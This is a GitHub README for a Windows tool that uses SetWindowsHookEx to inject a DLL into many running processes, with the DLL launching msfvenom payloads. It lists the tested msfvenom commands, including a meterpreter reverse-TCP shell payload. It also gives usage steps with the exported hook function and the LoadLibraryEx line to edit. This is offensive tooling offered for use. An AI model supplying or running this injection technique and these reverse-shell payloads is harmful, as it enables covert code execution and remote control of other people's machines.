# Global-SetWindowsHookEx-Injector
main.cpp: Loads test.dll into a subset of processes that have user32.dll loaded </br> 
dllmain.cpp: Launches a thread that launches an msfvenom payload whenever it is imported into a process </br>
## Payloads that have been tested with this project
`msfvenom -f c -p windows/x64/messagebox EXITFUNC=thread TEXT="Hello, from urmom"` </br>
`msfvenom -p windows/x64/meterpreter_reverse_tcp EXITFUNC=thread RHOST=127.0.0.1 RPORT=4444 -f c -o file.txt`
## Usage
1. Just add this to your dll:
extern "C" __declspec(dllexport) int NextHook(int code, WPARAM wParam, LPARAM lParam) {
	return CallNextHookEx(NULL, code, wParam, lParam);
}

2. Edit your dll name in hookloader/main.cpp:
HMODULE dll = LoadLibraryEx(L"test.dll", NULL, DONT_RESOLVE_DLL_REFERENCES); //<-- DLL name

3. Compile & done

![](https://github.com/Msfv3n0m/Global-SetWindowsHookEx-Injector/blob/master/loaded_dll.PNG)
## Credit
This project uses [this](https://www.bing.com/search?pglt=2081&q=mingw.threads.h+github&cvid=eda2595c8617405babee903277a23f89&aqs=edge.0.69i59l2j69i57j69i59j69i58j69i60j69i64.1251j0j1&FORM=ANNTA1&PC=U531) library to create a thread to launch the messagebox without interrupting the programs

